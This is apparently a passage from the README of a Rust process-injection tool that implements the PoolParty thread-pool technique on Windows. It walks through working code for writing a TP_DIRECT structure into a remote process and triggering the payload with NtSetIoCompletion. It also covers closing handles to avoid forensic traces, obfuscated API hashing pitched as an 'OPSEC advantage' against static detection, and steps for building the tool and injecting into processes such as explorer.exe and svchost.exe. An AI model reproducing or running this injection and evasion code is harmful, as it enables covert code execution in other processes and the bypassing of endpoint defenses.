| `0x30..0x37` | 8 B | `io_completion_info_list.Blink` | `*mut LIST_ENTRY` | IOCP info list backward pointer |
| **`0x38..0x3F`** | **8 B** | **`callback`** | **`PVOID`** | **EXECUTION TARGET POINTER (Payload Base)** |
| `0x40..0x43` | 4 B | `numa_node` | `ULONG` (`u32`) | NUMA node preference (`0` = default) |
| `0x44` | 1 B | `ideal_processor` | `UCHAR` (`u8`) | Core affinity (`0` = any) |
| `0x45..0x47` | 3 B | `_padding` | `[u8; 3]` | Explicit alignment padding |

#### Cross-Architecture Comparison (x86 vs x86_64)

| Metric | 32-bit Architecture (x86) | 64-bit Architecture (x86_64) |
|:---|:---:|:---:|
| `sizeof(TP_TASK_CALLBACKS)` | 8 bytes (`0x08`) | 16 bytes (`0x10`) |
| `sizeof(TP_TASK)` | 20 bytes (`0x14`) | 32 bytes (`0x20`) |
| `sizeof(TP_DIRECT)` | 44 bytes (`0x2C`) | **72 bytes (`0x48`)** |
| Offset of `callback` | `+0x20` (32 bytes) | **`+0x38` (56 bytes)** |
| Pointer Alignment | 4 bytes | 8 bytes |

#### Infallible Memory Serialization
`TP_DIRECT` provides an `as_bytes()` method that safely exposes a byte slice view of the struct for remote writing:

```rust
impl TP_DIRECT {
    pub fn as_bytes(&self) -> &[u8] {
        unsafe {
            std::slice::from_raw_parts(
                (self as *const Self).cast::<u8>(),
                std::mem::size_of::<Self>(),
            )
        }
    }
}
```

> [!NOTE]
> **Author's Note (`lcalzada-xor`):**  
> *In `set_io_completion.rs`, you'll find these exact comments:*
> ```rust
> // TP_DIRECT NO esta documentado, esto me ha dado muchos problemas
> pub struct TP_DIRECT { // esta struct se pasa a KeyCOntext, esta era mi ultima confusion, antes se lo pasaba a apccontext
>     pub numa_node: ULONG, // indica qué nodo NUMA físico debería despacharse preferentemente la tarea, la ram se divide en varios nodos numa, si pones 0 es el nodo por defecto
>     pub ideal_processor: UCHAR, // que nucleo ejecuta la tarea, 0 si te da igual
>     pub _padding: [u8; 3], // padding explicito para prevenir todos los errores que he tenido
> ```
> *Without that explicit 3-byte padding array (`_padding: [u8; 3]`), Rust aligns the struct differently than how `ntdll` expects it on x64. As a result, the `callback` pointer would drift off by a few bytes, causing `ntdll!TppDirectExecuteCallback` to dereference an invalid memory address and crash the target process immediately. Zeroing the entire structure and leaving NUMA/processor affinity at 0 ensures it executes safely across all Windows 10 and 11 builds.*

---

### 7. Task Dispatch: NtSetIoCompletion & KeyContext Mechanics

The injection is triggered by posting a completion packet to the duplicated completion port using `NtSetIoCompletion` (hash `0x6041e7aa`):

```rust
match nt_set_io_completion(
    duplicated_handle,
    _allocated_tpdirect_addr as PVOID, // KeyContext: Points to TP_DIRECT
    std::ptr::null_mut(),              // ApcContext: Must be NULL
    0,                                 // IoStatus: STATUS_SUCCESS (0)
    std::ptr::null_mut(),              // IoStatusInformation: NULL
) {
    Ok(_) => {
        #[cfg(debug_assertions)]
        println!("[+] Se ha añadido a la cola de iocp el codigo.");
    }
    Err(e) => return Err(format!("[!] nt_set_io_completion falló. Motivo: {}", e)),
}
```

#### System Call Signature & Parameter Mapping

```c
NTSTATUS NTAPI NtSetIoCompletion(
    _In_     HANDLE    IoCompletionHandle,
    _In_opt_ PVOID     KeyContext,
    _In_opt_ PVOID     ApcContext,
    _In_     NTSTATUS  IoStatus,
    _In_opt_ ULONG_PTR IoStatusInformation
);
```

| Parameter | Value Passed | Role in Thread Pool Architecture |
|:---|:---|:---|
| `IoCompletionHandle` | `duplicated_handle` | The locally cloned handle pointing to the remote process's worker factory IOCP. |
| `KeyContext` | `_allocated_tpdirect_addr` | **Core Injection Pointer:** Points to the remote `TP_DIRECT` task structure in the target process. |
| `ApcContext` | `std::ptr::null_mut()` | Unused in direct task dispatching. Must remain `NULL` to avoid corrupting overlapped I/O handling. |
| `IoStatus` | `0` (`STATUS_SUCCESS`) | Conveys completion success status to the worker thread. |
| `IoStatusInformation` | `std::ptr::null_mut()` | Transferred byte count; unused in task execution. |

#### Architectural Breakthrough: `KeyContext` vs `ApcContext`
In standard Win32 asynchronous file I/O (`CreateIoCompletionPort` / `GetQueuedCompletionStatus`), `KeyContext` represents the custom user completion key, while `ApcContext` holds the pointer to the `OVERLAPPED` structure.

However, in the **Windows Thread Pool Worker Factory subsystem**, the roles differ:
- Worker threads loop inside `ntdll!TppWorkerThread`, invoking `NtRemoveIoCompletion`.
- When a completion packet arrives, the thread pool internal dispatcher checks whether the packet represents an asynchronous I/O completion or a direct task.
- For direct tasks, the dispatcher treats **`KeyContext`** as the pointer to the `TP_DIRECT` task structure.
- Passing `_allocated_tpdirect_addr` in `ApcContext` causes the worker thread to treat `KeyContext` as null or invalid, dropping the packet without executing the callback.

> [!NOTE]
> **Author's Note (`lcalzada-xor`):**  
> *This was the single biggest hurdle during development. I spent hours debugging why `NtSetIoCompletion` returned `STATUS_SUCCESS` without triggering the payload. I was passing the address in `ApcContext` following standard asynchronous I/O conventions. Once I realized the Thread Pool dispatcher expects the `TP_DIRECT` structure pointer inside `KeyContext`, everything clicked into place.*

---

### 8. Cleanup & Handle Lifecycle: NtClose

Once the completion packet is queued, the injector immediately releases its handles using `nt_close` (hash `0x1c0fcdc4`):

```rust
match nt_close(duplicated_handle) {
    Ok(_) => {
        #[cfg(debug_assertions)]
        println!("[+] Handle duplicado cerrado");
    }
    Err(e) => println!("[!] Handle duplicado ERROR al cerrar. Motivo: {}", e),
}

match nt_close(remote_process_handle) {
    Ok(_) => {
        #[cfg(debug_assertions)]
        println!("[+] Handle proceso remoto pid: {} cerrado", remote_process_pid);
    }
    Err(e) => println!("[!] Handle proceso remoto ERROR al cerrar. Motivo: {}", e),
}
```

#### Forensic Hygiene
Closing the duplicated IOCP handle and remote process handle ensures that no cross-process handle references remain in the injector's handle table. Once closed, the injector leaves no persistent handle artifacts pointing to the target process.

---

## The Integration Testbed (examples/example.rs)

The integration testbed located at `examples/example.rs` demonstrates the end-to-end interactive workflow of the technique: from system process enumeration to payload injection and triggering within the target process's Thread Pool.

---

### Stage 1: Target Acquisition & The unique_hash Algorithm

`examples/example.rs:31-38` initiates target acquisition by printing the local process PID (`self_pid`) and demonstrating compile-time / runtime API hashing using `unique_hash`.

#### Mathematical Specification of `unique_hash`
The hashing algorithm implemented in `zada-xor/src/techniques/evasion/api_hashing.rs` modifies standard 32-bit FNV-1a with a 7-bit right bitwise rotation (ROR-7) and a final XOR transformation:

```math
\begin{aligned}
h_0 &= \mathbf{0x811C9DC5} \quad (\text{32-bit FNV Offset Basis}) \\
h_{i}' &= (h_{i-1} \oplus \text{byte}_i) \times \mathbf{16777619} \quad (\text{FNV Prime: } 0x01000193) \\
h_i &= (h_{i}' \gg 7) \mid (h_{i}' \ll 25) \quad (\text{ROR-7 Operation}) \\
\text{Final Hash} &= h_n \oplus \mathbf{0x7F3A9C12} \quad (\text{XOR Mask})
\end{aligned}
```

```rust
pub fn unique_hash(name: &str) -> u32 {
    let mut hash: u32 = 0x811C9DC5;
    for byte in name.bytes() {
        hash ^= byte as u32;
        hash = hash.wrapping_mul(16777619);
        hash = (hash >> 7) | (hash << (32 - 7));
    }
    hash ^ 0x7F3A9C12
}
```

#### Test Hash Verification Vectors

| Input String Identifier | Computed 32-bit Hash Value | Architectural Role in Engine |
|:---|:---:|:---|
| `"NtSetIoCompletion"` | `0x6041e7aa` | Kernel IOCP task dispatch system call. |
| `"NtQuerySystemInformation"`| `0xc3d78064` | Process table enumeration system call. |
| `"ntdll.dll"` (lowercase) | `0x68861c6f` | Primary native API module descriptor. |
| `"kernel32.dll"` (lowercase) | `0xd32210ae` | Win32 base subsystem module descriptor. |
| `"RtlUserThreadStart"` | `0xec14be5f` | Unwind anchor frame for synthetic stack spoofing. |
| `"BaseThreadInitThunk"` | `0x9941b145` | Intermediate frame for synthetic stack spoofing. |
| `"NtClose"` | `0x1c0fcdc4` | Handle lifecycle release system call. |
| `"NtOpenProcess"` | `0xaddc1c2e` | Process acquisition system call. |
| `"NtQueryObject"` | `0xfc2a599c` | Kernel object type introspection system call. |
| `"NtQueryInformationProcess"`| `0x6fa0c1f4` | Remote handle table enumeration system call. |
| `"NtDuplicateObject"` | `0x8f9a8420` | Cross-process handle duplication system call. |
| `"NtAllocateVirtualMemory"` | `0x2759addf` | Virtual memory reservation and commit system call. |
| `"NtWriteVirtualMemory"` | `0x7f603ee9` | Memory writing primitive system call. |
| `"NtProtectVirtualMemory"` | `0x96e11bf8` | Memory protection modification system call. |
| `"NtReadVirtualMemory"` | `0x7a58c6ca` | Virtual memory inspection system call. |
| `"strcpy"` | `0x097c4468` | C runtime export resolved dynamically from NTDLL. |

> **OPSEC Advantage:**  
> Combining FNV-1a multiplication with a non-standard 7-bit bitwise rotation prevents linear collision cryptanalysis and invalidates standard FNV-1a rainbow tables. The final XOR mask (`0x7F3A9C12`) ensures that no plaintext API names appear in the compiled binary, evading static string extraction tools.

---

### Stage 2: System Process Discovery via NtQuerySystemInformation

`examples/example.rs:39-50` enumerates active system processes using `get_process_table()`, displaying an interactive process table before prompting for a target PID:

```rust
match get_process_table() {
    Ok(table) => println!("{}", table),
    Err(e) => println!("Error al ejecutar la syscall: {}", e),
};
println!("Por favor, selecciona un pid para continuar:");
```

#### Discovery Pipeline & Dynamic Sizing
Implemented in `zada-xor/src/techniques/discovery/process.rs`, the routine queries `NtQuerySystemInformation` (hash `0xc3d78064`) using `SystemProcessInformation = 5`:

1. **Initial Size Probe:** Queries with a null pointer and length 0 to obtain the required length via `STATUS_INFO_LENGTH_MISMATCH` (`0xC0000004`).
2. **Buffer Allocation with Slack Headroom:** Allocates `return_length + 0x2000` bytes. The additional 8 KB (`0x2000`) slack buffer prevents buffer allocation failures if new processes spawn between the probe and the query.
3. **Contiguous Record Traversal:** Traverses the linked records using `next_entry_offset`. Traversal terminates when `next_entry_offset == 0`.
4. **Unicode Table Formatting:** Generates a structured Unicode box-drawing table displaying `PID`, `PPID`, `Session`, `Threads`, `Handles`, `Working Set` (auto-formatted in B, KB, MB, GB), and `Process Name`.

---

### Stage 3: Process Opening and PoolParty Execution

`examples/example.rs:86-116` opens a handle to the selected process and triggers the injection via `execute_poolparty_shellcode`:

```rust
let handle = match open_process(
    pid,
    DESIRED_ACCESS::PROCESS_VM_READ
        | DESIRED_ACCESS::PROCESS_VM_WRITE
        | DESIRED_ACCESS::PROCESS_QUERY_INFORMATION
        | DESIRED_ACCESS::PROCESS_VM_OPERATION
        | DESIRED_ACCESS::PROCESS_DUP_HANDLE,
) {
    Ok(handl) => {
        #[cfg(debug_assertions)]
        println!("[+] Handle al proceso con pid: {} obtenido exitosamente", pid);
        handl
    }
    Err(e) => {
        println!("[!] Error open_process: {}", e);
        return;
    }
};

match execute_poolparty_shellcode(pid, bytes_to_write) {
    Ok(_) => println!(
        "[+] Poolparty ejecutado exitosamente en el proc: {}, con el shellcode len {}",
        pid,
        bytes_to_write.len()
    ),
    Err(e) => println!("[!] Poolparty error: {}", e),
}
```

The payload buffer is passed as an abstract byte slice (`bytes_to_write: &[u8]`), ensuring clean isolation between the injection framework and the payload data.

---

## Cross-Compilation & Execution Guide

`poolparty-oxide` is engineered for cross-compilation from Linux development hosts targeting 64-bit Windows environments (`x86_64-pc-windows-gnu`).

### 1. Prerequisites & Toolchain Setup

Ensure that the Rust toolchain, MinGW-w64 cross-compiler, and the Windows GNU target are installed:

```bash
# Ubuntu / Debian
sudo apt-get update
sudo apt-get install -y build-essential gcc-mingw-w64-x86-64

# Fedora / RHEL
sudo dnf install -y mingw64-gcc

# Add Windows GNU compilation target
rustup target add x86_64-pc-windows-gnu
```

### 2. Compilation Commands

#### Compiling the Core Library (Release Profile)
To compile the optimized, stripped library crate:

```bash
cargo build --release --target x86_64-pc-windows-gnu
```

#### Checking the Integration Example
To verify code syntax, type invariants, and target compatibility for the integration testbed:

```bash
cargo check --example example --target x86_64-pc-windows-gnu
```

#### Compiling the Integration Testbed (Release Profile)
To build the complete standalone test binary:

```bash
cargo build --release --example example --target x86_64-pc-windows-gnu
```

The resulting binary will be output to:
```
target/x86_64-pc-windows-gnu/release/examples/example.exe
```

### 3. Execution & Testing

Transfer `example.exe` to an isolated Windows 10/11 x64 test virtual machine or execute under Wine:

```bash
# Optional: Execute under Wine on Linux
wine target/x86_64-pc-windows-gnu/release/examples/example.exe
```

#### Execution Workflow
1. The binary displays its own PID and the computed hash for `"NtSetIoCompletion"`.
2. It prints an active process table generated via `NtQuerySystemInformation`.
3. Enter a target process PID that hosts a standard Windows Thread Pool (e.g., `explorer.exe`, `svchost.exe`, `RuntimeBroker.exe`).
4. The engine opens the process, clones its IOCP handle, writes the payload and `TP_DIRECT` structures, and queues the completion packet.
5. Invokes `execute_poolparty_shellcode(pid, bytes_to_write)`, dispatching the payload to a legitimate worker thread inside the target process's Thread Pool and reporting the outcome.

> [!NOTE]
> **Author's Note (`lcalzada-xor`):**  
> *To suppress internal debug messages (`[+] Handle obtenido...`, `[+] Index de IoCompletion...`), compile with the `--release` flag. The verbose status messages are guarded by `#[cfg(debug_assertions)]` and are omitted in release builds for cleaner execution.*

---

## MITRE ATT&CK Mapping

| Tactic | Technique | Sub-technique / ID | Description |
|:---|:---|:---:|:---|
| **Defense Evasion / Privilege Escalation** | Process Injection | [T1055](https://attack.mitre.org/techniques/T1055/) | Thread Pool-Based Process Injection (PoolParty via `NtSetIoCompletion` & `TP_DIRECT`) |

---

## Related Projects

This repository is part of a series of technical explorations into Windows NT internals and systems programming in Rust:

- **[`zada-xor`](https://github.com/lcalzada-xor/zada-xor):** Core Rust library for direct Windows NT interaction (PEB/TEB traversal, in-memory PE parsing, dynamic SSN extraction with Hell's/Halo's Gate, indirect syscalls, and call stack spoofing).
- **[`poolparty-oxide`](https://github.com/lcalzada-xor/poolparty-oxide):** Dedicated implementation focused on Thread Pool process injection via I/O Completion Ports (IOCP).
- **[`Coff`](https://github.com/lcalzada-xor/Coff):** Specialized Call Stack Spoofing implementation for indirect system calls using dual NTDLL gadgets synchronized with `.pdata`.

---

## Resources, External References & Useful Links

### 1. Original PoolParty Research (SafeBreach Labs)
- **Original Research Article:** [SafeBreach Blog: Process Injection Using Windows Thread Pools](https://www.safebreach.com/blog/process-injection-using-windows-thread-pools/) by Alon Leviev.
- **Official Tool Repository:** [SafeBreach-Labs/PoolParty on GitHub](https://github.com/SafeBreach-Labs/PoolParty) — Original C/C++ PoC covering all 8 injection variants.
- **Black Hat Europe 2023 Briefing:** [The Pool Party You Will Never Forget: New Process Injection Techniques Using Windows Thread Pools](https://www.blackhat.com/eu-23/briefings/schedule/#the-pool-party-you-will-never-forget-new-process-injection-techniques-using-windows-thread-pools-35446).
- **Black Hat Europe 2023 Presentation (PDF):** [The Pool Party You Will Never Forget Slides](https://i.blackhat.com/EU-23/Presentations/EU-23-Leviev-The-Pool-Party-You-Will-Never-Forget.pdf).

### 2. Windows Thread Pool & NT Internals Documentation
- **Microsoft Learn (Official Documentation):**
  - [Thread Pools](https://learn.microsoft.com/en-us/windows/win32/procthread/thread-pools) — Architecture and core components of the Win32 thread pool.
  - [Using the Thread Pool Functions](https://learn.microsoft.com/en-us/windows/win32/procthread/using-the-thread-pool-functions) — Standard usage examples for worker factories, work items, and timers.
  - [I/O Completion Ports (IOCP)](https://learn.microsoft.com/en-us/windows/win32/fileio/i-o-completion-ports) — Official specification for asynchronous I/O completion ports.
- **Reverse Engineering & Undocumented NT Internals:**
  - [Geoff Chappell: NTDLL Thread Pool Functions](https://www.geoffchappell.com/studies/windows/win32/ntdll/history/) — Detailed reverse-engineered history of `ntdll.dll` internal `Tpp*` functions.
  - [System Informer (Process Hacker) - nttp.h](https://github.com/winsiderss/systeminformer/blob/master/phnt/include/nttp.h) — C header definitions for undocumented thread pool structures (`TP_DIRECT`, `TP_TASK`, `TP_POOL`).
  - [Undocumented NT Functions: NtSetIoCompletion](https://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FNT%20Objects%2FFile%2FNtSetIoCompletion.html) — Kernel prototype and parameter specification for `NtSetIoCompletion`.
  - *Windows Internals (7th Edition, Part 1 & 2)* — Pavel Yosifovich, Mark Russinovich, David Solomon, and Alex Ionescu.

### 3. Evasion, Dynamic Syscalls & Stack Spoofing Techniques
- **Hell's Gate:** [am0nsec/HellsGate](https://github.com/am0nsec/HellsGate) — Dynamic SSN extraction by scanning NTDLL function prologues.
- **Halo's Gate:** [SEKTOR7 HalosGate](https://blog.sektor7.net/#!res/2021/halosgate.md) — EDR hook detection and neighboring syscall math.
- **SilentMoonwalk:** [klezVirus/SilentMoonwalk](https://github.com/klezVirus/SilentMoonwalk) — Windows x64 Call Stack Spoofing via frame pointer desynchronization.
